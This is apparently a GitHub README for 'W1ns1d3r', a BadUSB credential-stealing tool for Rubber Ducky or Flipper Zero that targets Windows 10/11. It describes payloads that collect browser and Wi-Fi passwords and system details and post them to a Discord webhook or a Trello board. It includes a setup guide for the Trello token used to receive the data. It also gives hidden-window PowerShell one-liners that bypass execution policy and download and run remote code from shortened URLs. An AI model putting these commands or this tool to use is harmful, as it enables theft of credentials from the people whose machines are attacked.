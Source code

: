 # W1ns1d3r BadUSB

## Description

This project is a BadUSB mix of some rubber ducky scripts.

- **Version:** [1.0]
- **Average Time :** 
  - W1ns1d3r_f4st_Tr3ll0 : 3 Secs
  - W1ns1d3r_st4gg3d_Tr3ll0 : 30 secs
- **Target:** Windows 10/11 (7/8 not tested)
- **Supported Layout keyboard:** US/FR/DE
- **Author:** [b1g_ph4rm4](https://github.com/Gvte-Kali/BadStuffHosting)
*______________________________________________________________________________________________

 888      d888                             888          d8888                            d8888  
 888     d8888                             888         d8P888                           d8P888  
 888       888                             888        d8P 888                          d8P 888  
 88888b.   888   .d88b.           88888b.  88888b.   d8P  888  888d888 88888b.d88b.   d8P  888  
 888 "88b  888  d88P"88b          888 "88b 888 "88b d88   888  888P"   888 "888 "88b d88   888  
 888  888  888  888  888          888  888 888  888 8888888888 888     888  888  888 8888888888 
 888 d88P  888  Y88b 888          888 d88P 888  888       888  888     888  888  888       888  
 88888P" 8888888 "Y88888 88888888 88888P"  888  888       888  888     888  888  888       888  
                     888          888                                                           
                Y8b d88P          888                                                           
                 "Y88P"           888                                                           
 ______________________________________________________________________________________________*
  
- **Credits:**
  - [![blobs0](https://img.shields.io/badge/blobs0-Ultimate%20Flipper%20Grabber-brightgreen)](https://github.com/blobs0/Ultimate-Flipper-Grabber)
  - [![I-am-jakoby](https://img.shields.io/badge/I--am--jakoby-Discord%20Webhooks%20Functions-blue)](https://github.com/I-am-jakoby)
  - [![UNCOV3R3D](https://img.shields.io/badge/UNCOV3R3D-Statut-orange)](https://github.com/UNC0V3R3D)
  - 7h30th3r0n3
  - moosehadley

## Features 

**W1ns1d3r_st4gg3d_Tr3ll0:** 
- The informations the script pulls :
    - Stage 1 :
        - Web browser passwords
    - Stage 2 :
        - Antivirus software and version
        - User informations
        - System informations
        - Wifi passwords
- Post everything in your discord webhook
- Notes : The program works on the C:\temp directory and deletes it when the files are uploaded.
  
**W1ns1d3r_F4st_Tr3ll0** 
- Don't get the administrative privileges on target.
- Sets the working directory to C:\temp.
- The informations the script pulls :
    - Stage 2 :
        - Antivirus software and version
        - Hardware informations
        - System informations
        - Wifi passwords
- Post everything in your discord webhook
- Notes : The program works on the C:\temp directory and deletes it when the files are uploaded.
  
## How to use
- To get the Trello API working with your scripts, you'll need to get some configuration before using it : 
  - **The ID of the list you want to post into --> Step 1.6**
  - **An API Key --> Step 1.4.3**
  - **A Token --> Step 1.4.5**
- **Setup Guide :**
  - 1 - Creating account and setup informations
    - 1.1 - Create an account on this link : https://id.atlassian.com/login?application=trello
    - 1.2 - Go to your boards, this url should look like this : https://trello.com/u/yourusername/boards
    - 1.3 - Create a board
    - 1.4 - Go on https://trello.com/power-ups/admin and create a new power-up.
      - 1.4.1 - On creation, the only useful thing is to locate it into the worksapce where your board was created ( should only be one workspace if it's a new account ).
      - 1.4.2 - Go to your newly created Power-UP. Now go to API Key and click the "generate API Key".
      - 1.4.3 - **!! VERY IMPORTANT !!** You need to note somewhere the API Key. 
      - 1.4.4 - **!! VERY IMPORTANT !!**  On the API Key page, click on the token button, and authorize Trello to use your account.
      - 1.4.5 - **!! VERY IMPORTANT !!** You need to note the token, should look like *ATTAxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx*.
      - 1.4.6 - Go to your Power-UP *Capabilities* menu and make sure that it gets every authorization.
    - 1.5 - Go on the board you created, the url should look like this : "https://trello.com/b/xxxxxxx/name_of_your_board"
    - 1.6 - Use the idlist script : 
      - 1.6.1 - For linux users, go for the idlist.sh
      - 1.6.2 - For windows users, go for the idlist.ps1
  - 2 - Once you have the idlist, the API key and the token, you need to modify the script or the [.txt] file
    - 2.1 - Modifying the script, you need to add this into it ( Upload-Trello function ): 
      - $idList = "THE_ID_LIST"
      - $key = "YOUR_API_KEY_FROM"
      - $token = "YOUR_TOKEN_FROM"
    - 2.2 - Modifying the [.txt] file : 
      - *powershell -w h -NoP -Ep Bypass $token='';$key='';$idList='';irm https://shorturl.at/wBFLV | iex* **for W1ns1d3r_f4st_Tr3ll0** ( line 23 )
      - *powershell -w h -NoP -Ep Bypass $token='';$key='';$idList='';irm https://shorturl.at/gpvF5 | iex* **for W1ns1d3r_st4gg3d_Tr3ll0** ( line 53 )
    - 3 - Put the modified [.txt] file into your Rubber Ducky or Flipper Zero
    - 4 - Enjoy !

# Releases

- **Version [1.0]** - *10/02/2024*
